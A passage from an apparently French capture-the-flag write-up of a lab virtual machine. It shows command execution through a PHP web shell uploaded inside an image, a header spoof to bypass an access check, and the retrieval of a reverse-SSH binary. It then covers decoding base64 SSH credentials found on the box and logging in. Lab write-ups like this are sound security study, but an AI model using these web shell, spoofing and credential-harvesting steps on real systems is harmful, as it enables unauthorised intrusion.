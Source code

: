 Et ENFIN, j'ai mon exécution de commandes :

```console
$ curl -s "http://192.168.56.112/adminstration/upload/files/17509517431x1.php?cmd=id" -H "X-Forwarded-For: 127.0.0.1" --output - | strings
IHDR
 cHRM
bKGD
tIME
%tEXtdate:create
2025-06-26T15:24:34+00:00
%tEXtdate:modify
2025-06-26T15:24:34+00:00
(tEXtdate:timestamp
2025-06-26T15:24:34+00:00
&tEXtComment
uid=33(www-data) gid=33(www-data) groups=33(www-data)
IDAT
IEND
```

### Quickening

Une fois téléchargé un `reverse-sshx86` depuis la machine, tout va très vite :

```console
www-data@yousef-VirtualBox:/home$ ls
user.txt  yousef
www-data@yousef-VirtualBox:/home$ cat user.txt 
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
www-data@yousef-VirtualBox:/home$ cat user.txt | base64 -d
ssh : 
user : yousef 
pass : yousef123
```

Figurez-vous que ces identifiants fonctionnent en remote, ça aurait pu faire un bon kansas city shuffle.

La suite se passe de commentaires :

```console
$ ssh yousef@192.168.56.112
The authenticity of host '192.168.56.112 (192.168.56.112)' can't be established.
ED25519 key fingerprint is SHA256:J3OrMiuy5X+zdlTAYCltBBCNaN3bxTjPbQvtPR6QSzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.112' (ED25519) to the list of known hosts.
yousef@192.168.56.112's password: 
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic i686)

 * Documentation:  https://help.ubuntu.com/

778 packages can be updated.
482 updates are security updates.

Last login: Tue Dec  8 01:58:33 2020 from s
yousef@yousef-VirtualBox:~$ ls -al
total 124
drwxr-xr-x 18 yousef yousef 4096 Dec  8  2020 .
drwxr-xr-x  3 root   root   4096 Dec  6  2020 ..
-rw-------  1 yousef yousef 2896 Dec  8  2020 .ICEauthority
-rw-------  1 yousef yousef  186 Dec  8  2020 .Xauthority
-rw-------  1 yousef yousef 1340 Dec  8  2020 .bash_history
-rw-r--r--  1 yousef yousef  220 Nov 25  2020 .bash_logout
-rw-r--r--  1 yousef yousef 3637 Nov 25  2020 .bashrc
drwx------ 16 yousef yousef 4096 Dec  8  2020 .cache
```